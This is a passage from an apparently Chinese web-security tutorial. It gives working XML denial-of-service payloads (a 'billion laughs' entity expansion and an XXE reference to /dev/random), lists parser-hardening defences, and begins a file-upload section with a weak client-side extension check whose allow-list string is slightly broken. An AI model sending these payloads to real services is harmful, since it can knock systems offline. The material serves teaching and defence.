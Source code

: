 ```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

lol 是一个实体，内容为“lol”，lol2 实体引用 10 个 lol 实体，lol3 实体又引用了 10 个 lol2 实体，一直到 lol9，如此就会引用上亿个 lol 实体，XML 解析器将整个结构保存在内存中造成 DoS 攻击。

也可以使用 /dev/random 造成 DoS 攻击：

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
<message>
    <user>&xxe;</user>
</message>
```
/dev/random 是 Linux 系统中提供的随机伪设备，提供永不为空的随机字节数据流。

**防护**    

* 尽可能使用简单的数据格式存储和和传输数据，如 json，避免对敏感数据进行序列化
* 及时修复和更新应用程序或操作吸引使用的 XML 处理器和库
* 在 XML 解析器中禁用外部实体和 DTD 进程
* 在服务器端使用白名单进行过滤和验证

## 文件上传漏洞

### 前端检验

```js
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    // 定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    // 提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    // 判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```
